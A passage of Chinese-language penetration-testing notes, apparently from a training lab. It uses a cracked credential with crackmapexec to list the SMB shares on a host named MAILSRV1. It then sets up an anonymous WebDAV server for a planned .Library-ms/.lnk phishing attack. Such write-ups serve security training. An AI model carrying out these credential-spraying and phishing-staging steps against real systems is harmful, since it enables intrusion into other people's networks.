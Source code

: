 #### 3. 列舉 `MAILSRV1` 的 SMB 資料夾
john 的帳密有效，嘗試列舉 `MAILSRV1` 共享的資料夾
```
┌──(chw㉿CHW)-[~/beyond]
└─$ crackmapexec smb 192.168.117.242 -u john -p "dqsTwTpZPn#nL" --shares
SMB         192.168.117.242 445    MAILSRV1         [*] Windows Server 2022 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         192.168.117.242 445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL 
SMB         192.168.117.242 445    MAILSRV1         [+] Enumerated shares
SMB         192.168.117.242 445    MAILSRV1         Share           Permissions     Remark
SMB         192.168.117.242 445    MAILSRV1         -----           -----------     ------
SMB         192.168.117.242 445    MAILSRV1         ADMIN$                          Remote Admin
SMB         192.168.117.242 445    MAILSRV1         C$                              Default share
SMB         192.168.117.242 445    MAILSRV1         IPC$            READ            Remote IPC

``` 
> 沒有可讀取的共享資料夾

### Phishing for Access
無法透過 MAILSRV1 直接進入內部網路，可以選擇 Client-Side Attack
常見的 客戶端攻擊方式 ：\
- 透過 Microsoft Office 文件中的巨集 (Macro) 來執行惡意程式
- 使用 Windows Library (.Library-ms) + 快捷方式 (.lnk) 執行惡意命令

#### 1. 建立 WebDAV Server
提供一個遠端共享來儲存 `.Library-ms` 檔案，導致內部使用者點擊 `.lnk` 時，系統會從 WebDAV 伺服器下載惡意指令
```
┌──(chw㉿CHW)-[~/beyond]
└─$ mkdir webdav 
┌──(chw㉿CHW)-[~/beyond]
└─$ pip3 install --user wsgidav
┌──(chw㉿CHW)-[~/beyond]
└─$ /home/chw/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/chw/beyond/webdav/
Running without configuration file.
09:41:20.250 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
09:41:20.251 - INFO    : WsgiDAV/4.3.3 Python/3.11.9 Linux-6.8.11-arm64-aarch64-with-glibc2.38
09:41:20.251 - INFO    : Lock manager:      LockManager(LockStorageDict)
09:41:20.251 - INFO    : Property manager:  None
09:41:20.251 - INFO    : Domain controller: SimpleDomainController()
09:41:20.251 - INFO    : Registered DAV providers by route:
09:41:20.251 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/home/chw/.local/lib/python3.11/site-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
09:41:20.251 - INFO    :   - '/': FilesystemProvider for path '/home/chw/beyond/webdav' (Read-Write) (anonymous)
09:41:20.251 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
09:41:20.251 - WARNING : Share '/' will allow anonymous write access.
09:41:20.251 - WARNING : Share '/:dir_browser' will allow anonymous write access.
09:41:20.269 - INFO    : Running WsgiDAV/4.3.3 Cheroot/10.0.0 Python/3.11.9
09:41:20.269 - INFO    : Serving on http://0.0.0.0:80 ...
```
> 成功啟動 WebDAV 伺服器，提供匿名讀取/寫入權限
